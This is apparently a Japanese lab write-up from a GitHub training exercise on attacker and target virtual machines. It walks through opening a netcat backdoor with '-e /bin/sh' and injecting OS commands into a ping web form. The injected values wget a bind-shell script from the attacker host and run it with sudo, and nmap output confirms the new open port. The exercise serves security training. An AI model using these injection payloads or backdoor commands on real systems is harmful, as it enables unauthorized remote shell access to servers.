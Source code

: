 * Target OSでport=4444をサービスデーモンとしListen  <br>
```
vagrant@target:~$ sudo nc -lvp  4444 -e /bin/sh
listening on [any] 4444 ...
connect to [192.168.33.10] from attacker.cyexc-attacker [192.168.33.20] 33086
```

* Attacker OSでバックドア確認  <br>
```
vagrant@attacker:~$ nc target.cyexc-target 4444
pwd
/home/vagrant
```

* WEBサーバにGETリクエストを送信  <br>
```
vagrant@attacker:~$ echo -en "GET / HTTP/1.1\n\n" | nc target.cyexc-target 80
HTTP/1.1 400 Bad Request
Server: nginx/1.13.8
Date: Sat, 20 Jan 2018 16:26:14 GMT
Content-Type: text/html
Content-Length: 173
Connection: close
```

## Steps
ht&#8203;tp://target.cyexc-target/アクセス時のスクリーンショット

<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex2/images/pingWEB.png" width=400 title="Screenshot">

1. 不正なOSコマンドを含むリクエストを送信する。
	i. Bind Shellスクリプトは`8.8.8.8;wget http://attacker.cyexc-attacker:8081/bind_shell.py;chmod 777 bind_shell.py`と入力し、Attacker OSからTarget OSにダウンロードした。  <br>
 	Attacker OSで、nmapを用いてTarget OSをポートスキャンする。この時点では、ポート443がOPENしていない。<br>
	```
	vagrant@attacker:~$ sudo nmap -sS target.cyexc-target

	Nmap scan report for target.cyexc-target (192.168.33.10)

	PORT     STATE SERVICE
	22/tcp   open  ssh
	80/tcp   open  http
	111/tcp  open  rpcbind
	8080/tcp open  http-proxy
	MAC Address: 08:00:27:83:ED:1B (Cadmus Computer Systems)
	```

	ii. `8.8.8.8;echo 'cyexc' | sudo -S python bind_shell.py`のリクエスト送信でBind Shell起動する。  <br>
	Attacker OSで、nmapを用いてTarget OSのポートスキャンすると、ポート443がOPENしていることがわかる。  <br>
	```
	vagrant@attacker:~$ sudo nmap -sS target.cyexc-target

	Nmap scan report for target.cyexc-target (192.168.33.10)

	PORT     STATE SERVICE
	22/tcp   open  ssh
	80/tcp   open  http
	111/tcp  open  rpcbind
	**443/tcp  open  https**
	8080/tcp open  http-proxy
	MAC Address: 08:00:27:83:ED:1B (Cadmus Computer Systems)
	```
